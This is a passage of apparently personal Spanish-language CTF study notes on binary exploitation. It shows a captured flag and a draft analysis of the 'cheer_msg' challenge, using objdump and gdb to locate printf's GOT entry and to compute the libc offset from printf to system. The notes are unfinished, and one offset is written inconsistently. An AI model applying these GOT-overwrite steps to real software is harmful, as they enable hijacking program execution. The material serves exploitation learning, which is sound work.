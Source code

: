 ```
cat flag
flag{rop_the_night_away}
```

**EJEMPLO 3**

Level1 de la misma máquina que el Ejemplo2.




---------------------------------------------------------------------------------------------------
**EJEMPLO ??**
El caso de cheer_msg (otro día porque creo que no es un ataque a GOT, tengo que estudiarlo más)


El valor fijo de printf es, aquí tener en cuenta que en la segunda llamada escribe en 

``` 
objdump -R cheer_msg | grep printf
0804a010 R_386_JUMP_SLOT   printf@GLIBC_2.0
``` 

Dos maneras de calcular el offset respecto a printf por ejemplo:

a) Usando objdump:
``` 
objdump -T /lib/i386-linux-gnu/libc.so.6 | grep system
0003ab30  w   DF .text	00000037  GLIBC_2.0   system

objdump -T /lib/i386-linux-gnu/libc.so.6 | grep printf
00049930 g    DF .text	0000002a  GLIBC_2.0   printf
``` 
``` 
libc:
00049930 printf 
0003ab30 system

offset = system-printf = FFFFFFFFFFFF1200
``` 

b) Usando gdb:

``` 
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e32b30 <__libc_system>
gdb-peda$ p printf
$2 = {<text variable, no debug info>} 0xb7e41930 <__printf>
gdb-peda$ p /x 0xb7e32b30-0xb7e41930
$3 = 0xffff1200
gdb-peda$ x/2i printf+0xffff1200
0xb7e32b30 <__libc_system>:	sub    esp,0xc
0xb7e32b33 <__libc_system+3>:	mov    eax,DWORD PTR [esp+0x10]
``` 



